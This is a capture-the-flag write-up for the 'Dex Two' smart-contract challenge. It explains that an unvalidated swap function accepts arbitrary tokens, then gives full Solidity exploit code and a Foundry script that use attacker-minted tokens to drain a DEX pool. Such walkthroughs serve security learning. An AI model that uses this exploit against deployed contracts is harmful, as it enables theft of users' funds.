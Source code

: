 # Dex Two
The objective of this challenge is to drain all the tokens from the `DEX` pool. The key to solving this challenge lies in exploiting the lack of validation in the `swap` function, which allows swapping any token for tokens in the pool.

The `swap` function in the `DexTwo` contract does not validate whether the `from` and `to` tokens are part of the pool. This oversight allows us to introduce arbitrary tokens into the pool and manipulate the exchange rate to drain the legitimate tokens.

### Exploitation Strategy
1. Deploy Malicious Tokens: Create two new ERC20 tokens that we control.
2. Add Liquidity: Transfer 1 unit of each malicious token to the DEX. This ensures that:
    
>   The `getSwapAmount` function doesn’t revert due to division by zero.
    The swap calculation becomes `(1 * balanceOf(to)) / 1`, which equals `balanceOf(to)`, allowing us to drain all the legitimate tokens in a single swap.
3. Swap Malicious Tokens for Legitimate Tokens: Use the `swap` function to exchange 1 unit of the malicious tokens for all the legitimate tokens in the pool.

I created a smart contract and a script to automate the exploitation process:

Solving.sol:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IDex2 {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
}

contract Token is ERC20("Mock", "MOCK") {
    constructor() {
        _mint(_msgSender(), type(uint256).max - 1);
    }
}

contract Solving {
    IDex2 dex2;
    Token new_Token1;
    Token new_Token2;

    function solve(address _victim) external {

        dex2 = IDex2(_victim);
        new_Token1 = new Token();
        new_Token2 = new Token();

        address token1 = dex2.token1();
        address token2 = dex2.token2();
        IERC20(new_Token1).transfer(address(dex2), 1);
        IERC20(new_Token2).transfer(address(dex2), 1);
        IERC20(new_Token1).approve(address(dex2), type(uint256).max);
        IERC20(new_Token2).approve(address(dex2), type(uint256).max);
        dex2.swap(address(new_Token1), token1, 1);
        dex2.swap(address(new_Token2), token2, 1);
    }
}
```

SolvingScript.s.sol:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {
    address victim = ; // Your instance address

    function run() external {
        vm.startBroadcast();
        Solving solving = new Solving();
        solving.solve(victim);
        vm.stopBroadcast();
    }
}
```